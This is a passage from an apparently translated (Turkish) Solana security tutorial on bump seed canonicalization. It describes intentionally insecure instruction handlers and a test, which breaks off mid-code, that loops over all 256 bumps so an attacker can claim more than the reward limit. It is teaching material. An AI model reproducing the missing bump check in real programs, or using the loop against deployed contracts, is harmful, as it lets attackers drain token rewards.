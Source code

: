 Kanonik bump'ı kontrol etmediğinizde ortaya çıkabilecek güvenlik istismarlarını göstermek için, her program kullanıcısının "zamanında" ödül "talep etmesine" izin veren bir program ile başlayalım.

### 1. Kurulum

Öncelikle, [bu depo](https://github.com/solana-developers/bump-seed-canonicalization/tree/starter) üzerindeki `starter` dalındaki kodu alın.

Programda iki talimat işleyicisi ve `tests` dizininde bir test bulunduğunu fark edin.

Programdaki talimat işleyicileri:

1. `create_user_insecure`
2. `claim_insecure`

`create_user_insecure` talimat işleyicisi yalnızca imzacı'nın genel anahtarı ve geçirilen bir bump kullanarak bir PDA'da yeni bir hesap oluşturur.

`claim_insecure` talimat işleyicisi, kullanıcıya 10 token mint eder ve ardından hesabın ödüllerini talep edilmiş olarak işaretler, böylece tekrar talep edemezler.

**:::note Ancak program, söz konusu PDAs'ın kanonik bump kullanıp kullanmadığını açıkça kontrol etmez.** Programın ne yaptığını anlamak için göz atın ve sonra devam edin.

### 2. Güvensiz Talimat İşleyicileri Test Etme

Talimat işleyicileri açıkça `user` PDA'nın kanonik bump kullanmasını zorunlu kılmadığı için, bir saldırgan her cüzdan için birden fazla hesap oluşturabilir ve izin verilen miktardan daha fazla ödül talep edebilir.

`tests` dizinindeki test, bir saldırganı temsil eden yeni bir keypair olan `attacker` oluşturur. Ardından, tüm geçerli bump'lar arasında döngü gerçekleştirir ve `create_user_insecure` ve `claim_insecure` fonksiyonlarını çağırır. Sonunda, **:::info test, saldırganın birden fazla kez ödül alabilmiş olmasını ve her kullanıcı için tahsis edilen 10 token'dan daha fazlasını kazanmış olmasını bekler.**

```typescript
it("allows attacker to claim more than reward limit with insecure instruction handlers", async () => {
  try {
    const attacker = Keypair.generate();
    await airdropIfRequired(
      connection,
      attacker.publicKey,
      1 * LAMPORTS_PER_SOL,
      0.5 * LAMPORTS_PER_SOL,
    );
    const ataKey = await getAssociatedTokenAddress(mint, attacker.publicKey);

    let successfulClaimCount = 0;

    for (let i = 0; i < 256; i++) {
      try {
        const pda = anchor.web3.PublicKey.createProgramAddressSync(
          [attacker.publicKey.toBuffer(), Buffer.from([i])],
          program.programId,
        );
        await program.methods
          .createUserInsecure(i)
          .accounts({
            user: pda,
            payer: attacker.publicKey,
          })
          .signers([attacker])
          .rpc();
        await program.methods
          .claimInsecure(i)
          .accounts({
            user: pda,
```